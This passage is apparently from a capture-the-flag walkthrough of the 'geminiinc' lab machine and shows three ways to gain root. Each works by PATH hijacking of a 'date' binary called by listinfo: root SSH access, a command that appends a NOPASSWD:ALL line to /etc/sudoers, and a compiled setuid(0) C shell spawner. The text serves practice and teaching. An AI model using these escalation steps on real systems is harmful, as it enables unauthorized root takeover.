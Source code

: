 gemini1@geminiinc:~$ listinfo  
>...  

kali@kali:~$ ssh -l root 192.168.1.60  
>Linux geminiinc 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64  
>...  
>Last login: Tue Jan  9 08:07:05 2018  
root@geminiinc:~# id  
>uid=0(root) gid=0(root) groups=0(root)  

Second one, make gemeni1 a user that can execute sudo without password:  

gemini1@geminiinc:~$ cat date  
>echo "gemini1 ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers  
gemini1@geminiinc:~$ listinfo  
>...  

gemini1@geminiinc:~$ sudo -l  
>Matching Defaults entries for gemini1 on geminiinc:  
>    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
>  
>User gemini1 may run the following commands on geminiinc:  
>    (ALL) NOPASSWD: ALL  

gemini1@geminiinc:~$ sudo su  
root@geminiinc:/home/gemini1# id  
>uid=0(root) gid=0(root) groups=0(root)  

And the third one. Spawn a shell in c, with the setuid set at 0:  

**https://stackoverflow.com/questions/556194/calling-a-script-from-a-setuid-root-c-program-script-does-not-run-as-root**  

gemini1@geminiinc:~$ cat test.c   
>#include <stdio.h>  
>#include <stdlib.h>  
>#include <sys/types.h>  
>#include <unistd.h>  
>
>int main()  
>{  
>       setuid(0);  
>       system("/bin/bash - ");  
>       return 0;  
>}  

gemini1@geminiinc:~$ gcc test.c -o date  

gemini1@geminiinc:~$ listinfo  
>...  
root@geminiinc:~# id  
>displaying current date...    uid=0(root) gid=1000(gemini1) groups=1000(gemini1),24(cdrom),25(floppy),29(audio),30(dip),33(www-data),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner)  
